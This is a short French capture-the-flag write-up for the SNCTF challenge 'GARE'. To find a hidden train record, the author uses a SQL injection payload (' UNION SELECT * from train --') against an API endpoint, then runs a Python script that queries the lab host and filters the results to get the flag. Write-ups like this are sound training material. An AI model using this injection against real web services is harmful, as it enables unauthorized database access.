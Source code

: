 # GARE SNCTF - Writeup


**LORE :** Ah, tu as trouvé toutes les informations sur le train ? Maintenant, il te reste juste à mettre tout ça en lien et à trouver le bon train sur leur site. Et bientôt, tu seras riche avec tout cet OR.

Format flag: SNCTF{ }


![alt text](image.png)


On recharchant tout les info qu'on a sur le train soit. Et on sait qu'on cherche de l'OR

```
track 2B
wagon C4
date 2024-09-16
hour 2:00
freight OR
```

Après chercher les infos des trains on voit vite qu'on ne trouve aucun train valide

Le train le plus proche
![alt text](image-1.png)
Mais l'heure est pas valide

En trouvant l'api endpoint `/api/train?name=` et une injection SQL
`' UNION SELECT * from train --'` on découvre qu'il y a des trains privés et nom privés

![alt text](image-2.png)

Du coup à partir de la on peut utiliser l'api pour trouver le bon train

```py
import requests

URL = "http://samuel-lab.freeboxos.fr:11000/api/train?name=%27%20UNION%20SELECT%20*%20from%20train%20--%27"

response = requests.get(URL)
data = response.json()

for train in data:
    if train['track'] == '2B' and train['wagon'] == 'C4' and train['date'] == '2024-09-16' and train['hour'] == '2:00' and train['freight'] == 'OR':
        print(train)

print(f"Flag: SNCTF{{{train['uuid']}}}")
```

Il y a bien sur plusieurs moyens de trouver le bon train. Avec une full reques sql.